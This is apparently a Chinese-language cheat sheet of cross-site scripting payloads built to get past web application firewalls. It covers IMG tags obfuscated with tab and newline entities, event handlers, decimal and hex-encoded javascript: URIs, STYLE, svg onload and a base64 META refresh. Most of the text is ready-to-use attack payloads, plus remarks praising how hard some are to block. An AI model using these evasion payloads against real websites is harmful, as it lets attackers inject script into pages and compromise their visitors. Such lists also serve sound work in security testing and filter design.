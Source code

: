 #### IMAGE标签

除了大小写混合和半开括号外，还可以综合利用下面的常用方法进行WAF的规避

+ 利用09(tab)或10(换行)或13(回车)进行规避

  `<ImG SrC="JaV&#x0A;aS&#x0A;cRiPt:al&#x0A;Ert(&quot;XSS&quot;);"`

+ 利用style等属性进行规避

  `<ImG StY&#x0A;le=”xss:expr/*XSS*/ession(al&#x0A;Ert(&quot;XSS&quot;))”`

+ 利用onclick等事件进行规避

  `<ImG O&#x0A;nC&#x0A;lick="al&#x0A;Ert(&quot;XSS&quot;)"`

+ 利用十进制或十六进制编码进行规避

  `<ImG SrC=&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41>`

  `<ImG SrC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`

#### SCRIPT标签

`<<SCRIPT>alert(“XSS”);//<</SCRIPT>`

`<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>`，这种XSS payload让我很担忧,因为它几乎无法防御,除非禁用所有动态内容

#### 其他的标签

`<BR SIZE=”&{alert(‘XSS’)}”>`

`<svg/onload=alert(‘XSS’)>`

`<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>`

`<META HTTP-EQUIV=”refresh” CONTENT=”0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K”>`，这种方案很不错,他没有任何明显的script或者Javascript指令,因为它使用base64编码



文章链接参考[这里](http://www.legendsec.org/1871.html#post-1871-footnote-3)

https://www.jianshu.com/p/68cb0aedd553

https://www.cnblogs.com/xyongsec/p/11274865.html

https://www.jianshu.com/p/6ce1ab9ec9f7

https://www.freebuf.com/sectool/190995.html

https://www.jianshu.com/p/14383bcc202d

https://www.imooc.com/article/263674

https://segmentfault.com/a/1190000016095198

https://www.cnblogs.com/tangqingsong/p/9752866.html


